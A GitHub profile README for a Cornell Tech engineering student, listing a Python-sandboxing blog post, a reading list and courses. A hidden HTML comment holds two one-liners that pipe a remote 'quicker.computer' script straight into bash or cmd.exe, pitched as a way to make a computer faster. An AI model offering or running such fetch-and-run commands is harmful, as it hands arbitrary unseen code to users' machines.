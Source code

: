 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning/Projects
- 💻 Checkout my blog post: [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) 
- 💻 Personal Blog at dackjempsey.com currently it redirects to here.


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
- 📖[Surely Your Joking Mr.Feynman!](https://en.wikipedia.org/wiki/Surely_You%27re_Joking,_Mr._Feynman!)
- 📖[Efficient Processing of Deep Neural Networks](https://link.springer.com/book/10.1007/978-3-031-01766-7)

### Currently getting my M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing - Chip Design (PHD)
- Machine Learning Hardware Systems
- Sustainable Computing (PHD)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
